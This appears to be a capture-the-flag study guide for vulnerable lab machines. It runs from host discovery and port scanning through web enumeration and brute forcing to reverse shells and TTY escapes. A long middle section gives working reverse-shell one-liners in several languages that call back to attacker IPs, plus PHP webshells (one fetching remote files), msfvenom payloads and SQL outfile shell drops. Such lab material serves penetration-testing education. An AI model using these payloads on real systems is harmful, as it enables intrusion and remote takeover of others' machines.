 ********************************
CTF Series : Vulnerable Machines
********************************

This post (Work in Progress) mark downs the learning gathered by doing the vulnerable machines provided by the VulnHub, Hack the Box and others. Once you download the virtual machine from the website and run it in VMware or Virtual Box, below steps could be followed to find the vulnerabilities.

We would like to **thank g0tm1lk** for maintaining Vulnhub and moderators of Hack The Box. Also, **shout-out** to each and every **author of the Vulnerable Machine/ write-ups** submitted. Thank you for providing awesome challenges to learn from and sharing your knowledge to the community!. **Thank You!!**

In solving any vulnerable machine, there are few stages:

* :ref:`finding-the-ip-address`
* :ref:`port-scanning`
* :ref:`rabbit-holes`
* :ref:`from-nothing-to-unprivileged-shell`
* :ref:`unprivileged-shell-to-privileged-shell`

In this blog, we have mentioned, what can be done in each stages. Have also provided Tips and Tricks for solving the VMs. Vulnerability Analysis Blog in Infrastructure Pentest Series could also be referred for exploitation of any particular services (As, it provides information such as "If you have found service X (like ssh, Apache tomcat, JBoss, iscsi etc.), how they can be exploited"

.. _finding-the-ip-address:

Finding the IP address
======================

Netdiscover
-----------

An active/ passive arp reconnaissance tool

::

  netdiscover [options] 
  -i interface : The network interface to sniff and inject packets. 
  -r range : Scan a given range instead of auto scan.

  Example: 
  netdiscover -i eth0/wlan0/vboxnet0/vmnet1 -r 192.168.1.0/24 
	
Interface name for Virtualization Software

* Virtualbox : vboxnet 
* Vmware     : vmnet 

Nmap
----

Network exploration tool and security/ port scanner 

::

  nmap [Scan Type] [Options] {target specification} 
  -sP/-sn Ping Scan -disable port scan 

  Example: nmap -sP/-sn 192.168.1.0/24

.. _port-scanning:

Port Scanning
=============
	
Port scanning provides a large amount of information on open services and possible exploits that target these services. Two options

Unicornscan
-----------

A port scanner that utilizes its own userland TCP/IP stack, which allows it to run a asynchronous scans. Faster than nmap and can scan 65,535 ports in a relatively shorter time frame. 

::  

   unicornscan [options] X.X.X.X/YY:S-E 
     -i, --interface : interface name, like eth0 or fxp1, not normally required 
     -m, --mode : scan mode, tcp (syn) scan is default, U for udp T for tcp \`sf' for tcp connect scan and A for arp for -mT you can also specify tcp flags following the T like -mTsFpU for example that would send tcp syn packets with (NO Syn\|FIN\|NO Push\|URG)
     Address ranges are cidr like 1.2.3.4/8 for all of 1.?.?.?, if you omit the cidr mask then /32 is implied. 
     Port ranges are like 1-4096 with 53 only scanning one port, a for all 65k and p for 1-1024

    example: unicornscan 192.168.1.5:1-4000 gateway:a would scan port 1 - 4000 for 192.168.1.5 and all 65K ports for gateway.

Nmap
-----

Network exploration tool and security/ port scanner 

::

  nmap [Scan Type] [Options] {target specification} 

  HOST DISCOVERY:
  -sL: List Scan - simply list targets to scan 
  -sn: Ping Scan - disable port scan 
  -Pn: Treat all hosts as online -- skip host discovery

  SCAN TECHNIQUES: 
  -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans 
  -sU: UDP Scan -sN/sF/sX: TCP Null, FIN, and Xmas scans

  PORT SPECIFICATION: 
  -p : Only scan specified ports 
  Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9

  SERVICE/VERSION DETECTION: 
  -sV: Probe open ports to determine service/version info

  OUTPUT: 
  -oN/-oX/-oS/-oG : Output scan in normal, XML,Output in the three major formats at once 
  -v: Increase verbosity level (use -vv or more for greater effect)

  MISC: -6: Enable IPv6 scanning -A: Enable OS detection, version detection, script scanning, and traceroute


As unicornscan is so fast, it makes sense to use it for scanning large networks or a large number of ports. The idea is to use unicornscan to scan all ports, and make a list of those ports that are open and pass them to nmap for service detection. superkojiman has written a script for this available at `GitHub <https://github.com/superkojiman/onetwopunch>`_.

When portscanning a host, you will be presented with a list of open ports. In many cases, the port number tells you what application is running. Port 25 is usually SMTP, port 80 mostly HTTP. However, this is not always the case, and especially when dealing with proprietary protocols running on non-standard ports you will not be able to determine what application is running.

Amap - Application mapper
-------------------------

By using **amap**, we can identify if any SSL server is running on port 3445 or some oracle listener on port 23. Also, it will actually do an SSL connect if you want and then try to identify the SSL-enabled protocol! One of the VM in vulnhub was running http and https on the same port.

::

  amap -A 192.168.1.2 12380 
  amap v5.4 (www.thc.org/thc-amap) started at 2016-08-10 05:48:09 - APPLICATION MAPPING mode
  Protocol on 192.168.1.2:12380/tcp matches http 
  Protocol on 192.168.1.2:12380/tcp matches http-apache-2 
  Protocol on 192.168.1.2:12380/tcp matches ntp 
  Protocol on 192.168.1.2:12380/tcp matches ssl
  Unidentified ports: none.
  amap v5.4 finished at 2016-08-10 05:48:16

.. _rabbit-holes:

Rabbit Holes?
=============

.. _listen-to-the-interface:

Listen to the interface
------------------------

We should always listen to the local interface on which the VM is hosted such as vboxnet0 or vmnet using wireshark or tcpdump. Many VMs send data randomly, for example, In one of the VM, it does the arp scan and sends a SYN packet on the port 4444, if something is listening on that port, it send the data.

:: 

  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S], seq 861815232, win 16384, options [mss 1460,nop,nop,sackOK,nop,wscale 3,nop,nop,TS val 4127458640 ecr 0], length 0
  18:02:04.096330 IP 192.168.56.1.4444 > 192.168.56.101.36327: Flags [R.], seq 0, ack 861815233, win 0, length 0
  18:02:04.098567 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.098584 ARP, Request who-has 192.168.56.2 tell 192.168.56.101, length 28
  18:02:04.100756 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.100773 ARP, Request who-has 192.168.56.3 tell 192.168.56.101, length 28
  18:02:04.096292 IP 192.168.56.101.36327 > 192.168.56.1.4444: Flags [S],

While listening on port 4444, we might receive a something like a base64 encoded string or some message.

::

  nc -lvp 4444
  listening on [any] 4444 …
  192.168.56.101: inverse host lookup failed: Unknown host
  connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 39519
  0IHNpbGVuY2Ugc3Vycm91bmRpbmcgeW91Lg0KWW91IGxvb2sgZWFzdCwgdGhlbiBzb3V0aCwgdGhlbiB3ZXN0LCBhbGwgeW91IGNhbiBzZWUgaXMgYSBncmVhdCB3YXN0ZWxh

DNS Server
----------

If the targeted machine is running a DNS Server and we have possible domain name, we may try to figure out A, MX, AAAA records or try zone-transfer to figure out other possible domain names.

::

 host <domain> <optional_name_server>
 host -t ns <domain>           -- Name Servers
 host -t a <domain>            -- Address
 host -t aaaa <domain>         -- AAAA record points a domain or subdomain to an IPv6 address
 host -t mx <domain>           -- Mail Servers
 host -t soa <domain>          -- Start of Authority
 host <IP>                     -- Reverse Lookup
 host -l <Domain Name> <DNS Server> -- Domain Zone Transfer

SSL Certificate
---------------

If the targetted machine is running https server and we are getting a apache default webpage on hitting the https://IPAddress, probably, check the alt-dns-name on the ssl-certificate, create a entry in /etc/hosts and browse with the https://alt-dns-name.

::

 | ssl-cert: Subject: commonName=examplecorp.com/organizationName=ExampleCorp Ltd./stateOrProvinceName=Attica/countryName=IN/localityName=Mumbai/organizationalUnitName=IT/emailAddress=admin@examplecorp.com
 | Subject Alternative Name: DNS:www.examplecorp.com, DNS:admin-portal.examplecorp.com


.. _from-nothing-to-unprivileged-shell:

From Nothing to a Unprivileged Shell
====================================

At this point, you would have an idea about the different services and service version running on the system. (aka figure out what webservices such as cms or software's are running on the vulnerable machine)

searchsploit
------------
Exploit Database Archive Search

First, we need to check if the operating system is using any services which are vulnerable or the exploit is already available in the internet. For example, A vulnerable service webmin is present in one of the VM which can be exploited to extract information from the system.

::

  root@kali:~# nmap -sV -A 172.16.73.128
  **********Trimmed**************
  10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
  |_http-methods: No Allow or Public header in OPTIONS response (status code 200)
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
  | ndmp-version: 
  |_  ERROR: Failed to get host information from server
  **********Trimmed**************

If we search for webmin in searchsploit, we will find different exploits available for it and we just have to use the correct one based on the utility and the version matching.

::

  root@kali:~# searchsploit webmin
  **********Trimmed**************
  Description                                                                            Path
  ----------------------------------------------------------------------------------------------------------------
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit                   | /multiple/remote/1997.php
  Webmin < 1.290 / Usermin < 1.220 Arbitrary File Disclosure Exploit (perl)            | /multiple/remote/2017.pl
  Webmin 1.x HTML Email Command Execution Vulnerability                                | /cgi/webapps/24574.txt
  **********Trimmed**************

Once we have figured out which exploit to check we can read about it by using the file-number. For example: 1997, 2017, 24574 in the above case.

::

 searchsploit -x 24674


Searchsploit even provide an option to read the nmap XML file and suggest vulnerabilities ( Need nmap -sV -x xmlfile ).

::
  
  searchsploit
       --nmap     [file.xml]  Checks all results in Nmap's XML output with service version (e.g.: nmap -sV -oX file.xml).
                              Use "-v" (verbose) to try even more combinations


.. Tip :: If we don't get a exact exploit for a version, it is also recommended to read the exploits which are highlighted as they may be valid for lower versions too. For example Let's say we are searching for exploits in Example_Software version 2.1.3. However, version 2.2.2 contains multiple vulnerablities. Reading the description for 2.2.2 we find out it's valid for lower versions too.

SecLists.Org Security Mailing List Archive
------------------------------------------

There would be some days, when you won't find vulnerability in searchsploit. We should also check the `seclists.org security mailing list google search <http://seclists.org/>`_, if someone has reported any bug for that particular software. 

Google-Vulns
------------

It is suggested that whenever you are googling something,  also try with the words such as ctf, github, python, tool etc. For example. Let's say, you are stuck in a docker or in a specific cms search for docker ctf or <cms_name> ctf/ github etc.

Webservices
-----------

If a webserver is running on the machine, we can start with running 
 
whatweb
^^^^^^^

Utilize whatweb to find what server is running.

::

 whatweb www.example.com
 http://www.example.com [200 OK] Cookies[ASP.NET_SessionId,CMSPreferredCulture,citrix_ns_id], Country[INDIA][IN], Email[infosecurity@zmail.example.com], Google-Analytics[Universal][UA-6386XXXXX-2], HTML5, HTTPServer[Example Webserver], HttpOnly[ASP.NET_SessionId,CMSPreferredCulture,citrix_ns_id], IP[XXX.XX.XX.208], JQuery[1.11.0], Kentico-CMS, Modernizr, Script[text/javascript], Title[Welcome to Example Website ][Title element contains newline(s)!], UncommonHeaders[cteonnt-length,x-cache-control-orig,x-expires-orig], X-Frame-Options[SAMEORIGIN], X-UA-Compatible[IE=9,IE=edge]


nikto
^^^^^
nikto - Scan web server for known vulnerabilities. It would examine a web server to find potential problems and security vulnerabilities, including:

* Server and software misconfigurations
* Default files and programs
* Insecure files and programs
* Outdated servers and programs

dirb, wfuzz, dirbuster
^^^^^^^^^^^^^^^^^^^^^^

Further, we can execute to find any hidden directories.

* `DIRB <https://tools.kali.org/web-applications/dirb>`_ is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary basesd attack against a web server and analizing the response.
* `wfuzz <https://tools.kali.org/web-applications/wfuzz>`_ - a web application bruteforcer. Wfuzz might be useful when you are looking for webpage of a certain size. For example: Let's say, when we dirb we get 50 directories. Each directory containing a image. Most of the time, now we need to figure out which image is different. Here, we would figure out what's the size of the normal image and hide that particular response with wfuzz.
* `Dirbuster <https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project>`_ : DirBuster is a multi threaded java application designed to brute force directories and files names on web/application servers. 

.. Tip :: If the using the dirb/wfuzz wordlist doesn't result in any directories and the website contains a lot of text, it might be a good idea to use cewl to create a wordlist and utilize that as a dictionary to find hidden directories.

.. Tip :: Probably, we would be using common.txt in /usr/share/wordlists/dirb/ . If it's doesn't find anything, it's better to double check with /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt which is list of directories that where found on at least 2 different hosts when DirBuster project crawled the internet. Even if that doesn't work out, try searching with extensions .txt, .js, .html, .php. (.txt by default and rest application based)


PUT Method
^^^^^^^^^^

Sometimes, it is also a good option to check for the various OPTIONS available on the website such as GET, PUT, DELETE etc.

Curl command can be used to check the options available:

::

  curl -X OPTIONS -v http://192.168.126.129/test/
  Trying 192.168.126.129…
  Connected to 192.168.126.129 (192.168.126.129) port 80 (#0)
  > OPTIONS /test/ HTTP/1.1
  > Host: 192.168.126.129
  > User-Agent: curl/7.47.0
  > Accept: /
  >
  < HTTP/1.1 200 OK
  < DAV: 1,2
  < MS-Author-Via: DAV
  < Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
  < Allow: OPTIONS, GET, HEAD, POST
  < Content-Length: 0
  < Date: Fri, 29 Apr 2016 09:41:19 GMT
  < Server: lighttpd/1.4.28
  <
  * Connection #0 to host 192.168.126.129 left intact

The put method allows you to upload a file. Eventually, you can upload a php file which can work as a shell. There are multiple methods to upload the file as mentioned in `Detecting and exploiting the HTTP Put Method <http://www.smeegesec.com/2014/10/detecting-and-exploiting-http-put-method.html>`_ 

The few are

* Nmap:

 ::

   nmap -p 80 --script http-put --script-args http-put.url='/uploads/rootme.php',http-put.file='/tmp/rootme.php'

* curl:

 ::

   curl --upload-file test.txt -v --url http://192.168.126.129/test/test.txt

 or

 :: 

   curl -X PUT -d '

Wordpress
^^^^^^^^^

When running wpscan, also make sure you run --enumerate u for enumerating usernames. By default wpscan doesn't run it. Also, scan for plugins

::

  wpsscan
    --url       | -u <target url>       The WordPress URL/domain to scan.
    --force     | -f                    Forces WPScan to not check if the remote site is running WordPress.
    --enumerate | -e [option(s)]        Enumeration.
    option :
    	u        usernames from id 1 to 10
    	u[10-20] usernames from id 10 to 20 (you must write [] chars)
    	p        plugins
    	vp       only vulnerable plugins
    	ap       all plugins (can take a long time)
    	tt       timthumbs
    	t        themes
    	vt       only vulnerable themes
    	at       all themes (can take a long time)
    	Multiple values are allowed : "-e tt,p" will enumerate timthumbs and plugins
    	If no option is supplied, the default is "vt,tt,u,vp"

Wordpress configuration is stored in wp-config.php. If you are able to download it, you might get username and password to database. We can also use wordpress to bruteforce password for a username 

::

  wpscan --url http://192.168.1.2 --wordlist wordlist.txt --username example_username

.. Tip :: If we have found a username and password of wordpress with admin privileges, we can upload a php meterpreter. One of the possible way is to do Appearance > Editor > Possibly edit 404 Template.

Names? Possible Usernames? Possible Passwords?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
   
Sometimes, on visiting the webpage of the webserver (If Vulnerable machine is running any http/ https webserver), you would find possible  names of the employees working in the company. Now, it is common practice to have username based on your first/ last name. Superkojiman has written a script `namemash.py <https://gist.githubusercontent.com/superkojiman/11076951/raw/8b0d545a30fd76cb7808554b1c6e0e26bc524d51/namemash.py>`_ which could be used to create possible usernames. However, we still have a large amount of  usernames to bruteforce with passwords. Further, if the vulnerable machine is running a SMTP mail server, we can verify if the particular username exists or not and modify namemash.py to generate usernames for that pattern.

* Using metasploit smtp\_enum module: Once msfconsole is running, use auxiliary/scanner/smtp/smtp\_enum, enter the RHOSTS (target address) and USER FILE containing the list of probable user accounts.
* Using VRFY command:
* Using RCPT TO command:

Brute forcing: hydra
^^^^^^^^^^^^^^^^^^^^

Hydra can be used to brute force login web pages

::

  -l LOGIN or -L FILE login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE try password PASS, or load several passwords from FILE
  -U        service module usage details
  -e nsr additional checks, "n" for null password, "s" try login as pass, "r" try the reverse login as pass

hydra http-post-form:

:: 

   hydra -U http-post-form

**Help for module http-post-form**

Module http-post-form requires the page and the parameters for the web form.

By default this module is configured to follow a maximum of 5 redirections in a row. It always gathers a new cookie from the same URL without variables. The parameters take three ":" separated values, plus optional values.

::

  Syntax:   <url>:<form parameters>:<condition string>[:<optional>[:<optional>]

* First is the page on the server to GET or POST to (URL).
* Second is the POST/GET variables (taken from either the browser, proxy, etc. with usernames and passwords being replaced in the "^USER^" and "^PASS^" placeholders (FORM PARAMETERS)
* Third is the string that it checks for an *invalid* login (by default) Invalid condition login check can be preceded by "F=", successful condition login check must be preceded by "S=". This is where most people get it wrong. You have to check the webapp what a failed string looks like and put it in this parameter!
* The following parameters are optional:
  C=/page/uri     to define a different page to gather initial cookies from
  (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request	^USER^ and ^PASS^ can also be put into these headers!

 * Note: 

  * 'h' will add the user-defined header at the end	regardless it's already being sent by Hydra or not.
  * 'H' will replace the value of that header if it exists, by the one supplied by the user, or add the header at the end

 * Note that if you are going to put colons (:) in your headers you should escape them with a backslash (\). All colons that are not option separators should be escaped (see the examples above and below). You can specify a header without escaping the colons, but that way you will not be able to put colons in the header value itself, as they will be interpreted by hydra as option separators.

Examples:

:: 

 "/login.php:user=^USER^&pass=^PASS^:incorrect"
 "/login.php:user=^USER^&pass=^PASS^&colon=colon\:escape:S=authlog=.*success"
 "/login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed"
 "/:user=^USER&pass=^PASS^:failed:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^"
 "/exchweb/bin/auth/owaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:reason=:C=/exchweb"


Reverse Shells
--------------

Possibly, we would have figured out some vulnerablity in the services running or misconfiguration and can have a reverse shell using netcat, php, weevely, ruby, perl, python, java, jsp, bash tcp, Xterm, Lynx, Mysql. Mostly taken from `PentestMonkey Reverse shell cheat sheet <http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet>`_  and `Reverse Shell Cheat sheet from HighOn.Coffee <https://highon.coffee/blog/reverse-shell-cheat-sheet/>`_ and some more.

netcat (nc)
^^^^^^^^^^^

* with the -e option

::

  nc -e /bin/sh 10.0.0.1 1234

* without -e option

::

  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

PHP
^^^

* **PHP Shell**

 We can create a new file say (shell.php) on the server containing

 :: 

   <?php system($_GET["cmd"]); ?>

 or

 :: 

   <?php echo shell_exec($_GET["cmd"]); ?>

 or

 ::

   <? passthru($_GET["cmd"]); ?>

 which can be accessed by

 :: 

  http://IP/shell.php?cmd=id

 If there's a webpage which accepts phpcode to be executed, we can use curl to urlencode the payload and run it.

 ::

  curl -G -s http://10.X.X.X/somepage.php?data= --data-urlencode "html=<?php passthru('ls -lah'); ?>" -b "somecookie=somevalue" | sed '/<html>/,/<\/html>/d'
  
  -G When used, this option will make all data specified with -d, --data, --data-binary or --data-urlencode to be used in an HTTP GET request instead of the POST request that otherwise would be used. The data will be appended to the URL with a  '?' separator.
  -data-urlencode <data> (HTTP) This posts data, similar to the other -d, --data options with the exception that this performs URL-encoding. 
  -b, --cookie <data> (HTTP) Pass the data to the HTTP server in the Cookie header. It is supposedly the data previously received from the server in a "Set-Cookie:" line.  The data should be in the format "NAME1=VALUE1; NAME2=VALUE2".

 If you also want to provide upload functionality (Imagine, if we need to upload nc64.exe on Windows or other-binaries on linux), we can put the below code in the php file

 ::

  <?php 
   if (isset($_REQUEST['fupload'])) {
    file_put_contents($_REQUEST['fupload'], file_get_contents("http://yourIP/" . $_REQUEST['fupload']));
   };
   if (isset($_REQUEST['cmd'])) {
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
   }
  ?>

  
* **PHP Meterpreter**

 We can create a php meterpreter shell, run a exploit handler on msf, upload the payload on the server and wait for the connection.

 ::

  msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f raw -o /tmp/payload.php

* **PHP Reverse Shell**

 PHP Trick: This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6

 :: 

  php -r '$sock=fsockopen("192.168.56.101",1337);exec("/bin/sh -i <&3 >&3 2>&3");'

 The above can be connected by listening at port 1337 by using nc

Weevely
^^^^^^^

Weevely also generates a webshell

:: 

  weevely generate password /tmp/payload.php

which can be called by

:: 

  weevely http://192.168.1.2/location_of_payload password

However, it wasn't as useful as php meterpreter or reverse shell.


Ruby
^^^^

:: 

  ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Perl
^^^^

.. code-block :: bash 

  perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Python
^^^^^^

TCP

::  

  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

UDP

::

 import os,pty,socket;s=socket.socket(socket.AF_INET, socket.SOCK_DGRAM);s.connect(("10.10.14.17", 4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv("HISTFILE",'/dev/null');pty.spawn("/bin/sh");s.close()

Java
^^^^

.. code-block :: bash 

  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()

JSP
^^^

.. code-block :: bash 

   msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.110.129 LPORT=4444 -f war > runme.war

Bash /dev/tcp
^^^^^^^^^^^^^

If a server is listening on a port:

::

  nc -lvp port

then we can use the below to connect

::
   
  /bin/bash -i >&/dev/tcp/IP/Port 0>&1


XTerm
^^^^^

One of the simplest forms of reverse shell is an xterm session. The following command should be run on the server. It will try to connect back to you (10.0.0.1) on TCP port 6001.

.. code-block :: bash 

  xterm -display 10.0.0.1:1


To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001). One way to do this is with Xnest (to be run on your system):

::
 
   Xnest :1

You’ll need to authorize the target to connect to you (command also run on your host):

::

  xhost +targetip

Lynx
^^^^

Obtain an interactive shell through lynx: It is possible to obtain an interactive shell via special LYNXDOWNLOAD URLs. This is a big security hole for sites that use lynx "guest accounts" and other public services. More details `LynxShell <http://insecure.org/sploits/lynx.download.html>`_ 

When you start up a lynx client session, you can hit "g" (for Goto) and then enter the following URL:

:: 

  URL to open: LYNXDOWNLOAD://Method=-1/File=/dev/null;/bin/sh;/SugFile=/dev/null

MYSQL
^^^^^

* If we have MYSQL Shell via sqlmap or phpmyadmin, we can use mysql outfile/ dumpfile function to upload a shell.

 :: 

   echo -n "<?php phpinfo(); ?>" | xxd -ps 3c3f70687020706870696e666f28293b203f3e
   select 0x3c3f70687020706870696e666f28293b203f3e into outfile "/var/www/html/blogblog/wp-content/uploads/phpinfo.php"

 or 

 ::
 
  SELECT "<?php passthru($_GET['cmd']); ?>" into dumpfile '/var/www/html/shell.php';

* If you have sql-shell from sqlmap/ phpmyadmin, we can use

 :: 
	
   select load_file('/etc/passwd');

Spawning a TTY Shell
--------------------

Once we have reverse shell, we need a full TTY session by using either Python, sh, perl, ruby, lua, IRB. `Spawning a TTY Shell <https://netsec.ws/?p=337>`_ and `Post-Exploitation Without A TTY <http://pentestmonkey.net/blog/post-exploitation-without-a-tty>`_ has provided multiple ways to get a tty shell

Python
^^^^^^

.. code-block :: bash 

  python -c 'import pty; pty.spawn("/bin/sh")'

or

.. code-block :: bash

  python -c 'import pty; pty.spawn("/bin/bash")'

.. code-block :: bash

  python -c 'import os; os.system("/bin/bash")'

sh
^^

.. code-block :: bash

  /bin/sh -i

Perl
^^^^

.. code-block :: bash 

  perl -e 'exec "/bin/sh";'

.. code-block :: bash

  perl: exec "/bin/sh";

Ruby
^^^^

.. code-block :: bash

   ruby: exec "/bin/sh"

Lua
^^^

.. code-block :: bash

   lua: os.execute('/bin/sh')

IRB
^^^
(From within IRB)

.. code-block :: bash

  exec "/bin/sh"

VI
^^

(From within vi)

.. code-block :: bash 

  :!bash

(From within vi)

.. code-block :: bash 

  :set shell=/bin/bash:shell

Also, if we execute

::

  vi ;/bin/bash

Once, we exit vi, we would get shell. Helpful in scenarios where the user is asked to input which file to open.

Nmap
^^^^

(From within nmap)

.. code-block :: bash 

  !sh

Expect
^^^^^^

Using “Expect” To Get A TTY

.. code-block :: bash 

  $ cat sh.exp
  #!/usr/bin/expect
  # Spawn a shell, then allow the user to interact with it.
  # The new shell will have a good enough TTY to run tools like ssh, su and login
  spawn sh
  interact

Sneaky Stealthy SU in (Web) Shells
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Let's say we have a webshell on the server ( probably, we would be logged in as a apache user), however, if we have credentials of another user, and we want to login we need a tty shell. We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell. 

**Example**

Webshell like

::

 http://IP/shell.php?cmd=id

If we try 

::

 echo password | su -c whoami

Probably will get

::

 standard in must be a tty

The su command would work from a terminal, however, would not take in raw stuff via the shell's Standard Input.

We can use a shell terminal trick that relies on Python to turn our non-terminal shell into a terminal shell

::

 (sleep 1; echo password) | python -c "import pty; pty.spawn(['/bin/su','-c','whoami']);"
 root

The above has been referenced from SANS `Sneaky Stealthy SU in (Web) Shells <https://pen-testing.sans.org/blog/2014/07/08/sneaky-stealthy-su-in-web-shells#>`_

Restricted Shell
----------------

Sometimes, after getting a shell, we figure out that we are in restricted shell. The below has been taken from `Escaping Restricted Linux Shells <https://pen-testing.sans.org/blog/pen-testing/2012/06/06/escaping-restricted-linux-shells>`_ , `Escape from SHELLcatraz <https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells>`_ 

Definition
^^^^^^^^^^
It limits a user's ability and only allows them to perform a subset of system commands. Typically, a combination of some or all of the following restrictions are imposed by a restricted shell:

* Using the 'cd' command to change directories.
* Setting or unsetting certain environment variables (i.e. SHELL, PATH, etc...).
* Specifying command names that contain slashes.
* Specifying a filename containing a slash as an argument to the '.' built-in command.
* Specifying a filename containing a slash as an argument to the '-p' option to the 'hash' built-in command.
* Importing function definitions from the shell environment at startup.
